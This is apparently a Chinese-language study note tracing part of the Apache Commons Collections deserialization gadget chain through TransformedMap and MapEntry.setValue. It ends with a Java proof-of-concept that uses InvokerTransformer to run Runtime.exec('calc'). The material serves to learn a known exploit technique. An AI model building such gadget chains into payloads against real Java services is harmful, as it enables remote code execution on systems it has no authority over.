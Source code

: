 
当前流程可理解如下
![[Drawing 2025-05-28 22.46.32.excalidraw|1500]]
此时可以继续找到方法checkSetValue方法的调用处
再使用idea ctrl跟进方法的时候发现进入了TransformedMap其父类
AbstractInputCheckedMapDecorator，（而TransformedMap的方法checkSetValue是实例化对应的抽象方法checkSetValue），不必纠结这个点，我们观察其调用逻辑即可，发现有一个方法调用了checkSetValue方法
```java
    static class MapEntry extends AbstractMapEntryDecorator {  
  
        /** The parent map */  
        private final AbstractInputCheckedMapDecorator parent;  
  
        protected MapEntry(Map.Entry entry, AbstractInputCheckedMapDecorator parent) {  
            super(entry);  
            this.parent = parent;  
        }  
  
        public Object setValue(Object value) {  
            value = parent.checkSetValue(value);  
            return entry.setValue(value);  
        }  
    }  
  
}
```
setValue 属于MapEntry此类下的方法，其作用为调用AbstractInputCheckedMapDecorator类方法checkSetValue对传入的value进行检查，（检查具体逻辑由继承子类实现，例如调用ransformedMap中的checkSetValue方法）最后给entry的值进行修改，entry其实就相当于python的字典，这里就可以写exp了
```java
package org.example;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.TransformedMap;  
  
  
  
import java.lang.reflect.Method;  
import java.util.HashMap;  
import java.util.Map;  
  
// 按两次 Shift 打开“随处搜索”对话框并输入 `show whitespaces`，  
// 然后按 Enter 键。现在，您可以在代码中看到空格字符。  
public class Main {  
    public static void main(String[] args) throws Exception {  
        Runtime runtime = Runtime.getRuntime();  
  
//        InvokerTransformer exp = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});  
//        exp.transform(runtime);  
        Map<Object, Object> expMap = new HashMap<>();  
        expMap.put("test", "test");  
        InvokerTransformer expTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});  
        Map<Object, Object> transformedMap = TransformedMap.decorate(expMap, null, expTransformer);  
  
        Map.Entry<Object, Object> entry = transformedMap.entrySet().iterator().next();  
        entry.setValue(runtime);  
//        Class<?> clazz = transformedMap.getClass();  
//        Method checkSetValueMethod = clazz.getDeclaredMethod("checkSetValue", Object.class);  
//        checkSetValueMethod.setAccessible(true);  
//        checkSetValueMethod.invoke(transformedMap, runtime);  
    }  
}
```